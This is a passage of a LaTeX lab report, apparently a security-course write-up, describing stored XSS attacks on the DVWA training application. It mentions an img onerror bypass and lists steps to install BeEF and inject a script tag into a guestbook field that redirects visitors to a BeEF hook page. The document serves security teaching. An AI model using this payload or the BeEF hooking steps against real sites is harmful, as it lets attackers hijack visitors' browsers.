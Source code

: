\documentclass[12pt]{article}
\begin{document}
\subsection{Results}

By exploiting the \texttt{onerror} event handler in an \texttt{<img>} tag, executed a stored XSS attack even at the high security level. 

\section{Task 4: Complete Stored XSS Using BeEF}

\subsection{Steps Taken}

\begin{enumerate}
    \item Opened a terminal gaining root access by typing \texttt{sudo su}.
    \item Updated the system using \texttt{apt update}.
    \item Installed BeEF with \texttt{apt install beef-xss} confirmed with \texttt{Y}.
    \item Changed the BeEF password by editing \texttt{/etc/beef-xss/config.yaml}.
    \item Started BeEF by navigating to \texttt{/usr/share/beef-xss} running \texttt{./beef}.
    \item Accessed BeEF's web interface at \url{http://127.0.0.1:3000/ui/authentication}.
    \item Logged in using the username \texttt{beef} and the new password '\textbf{mynewpassword}'.
    \item Copied the link to the advanced demo page from BeEF.
    \item Returned to DVWA and set the Security Level to \textbf{Low}.
    \item Navigated to the \textbf{XSS (Stored)} page.
    \item Right-clicked on the \textbf{Message} input field, selected \textbf{Inspect Element}, and changed \texttt{maxlength} to \texttt{200}.
    \item In the \textbf{Name} field, entered \texttt{Bob}.
    \item In the \textbf{Message} field, entered:

	\begin{lstlisting}[style=terminal]
    {<script>document.location='http://127.0.0.1:3000/demos/butcher/index.html'</script>}
    \end{lstlisting}

    \item Clicked \textbf{Sign Guestbook}.
    \item Observed the page redirected to BeEF demo page.
    \item Confirmed browser was hooked in BeEF interface.
\end{enumerate}
\end{document}
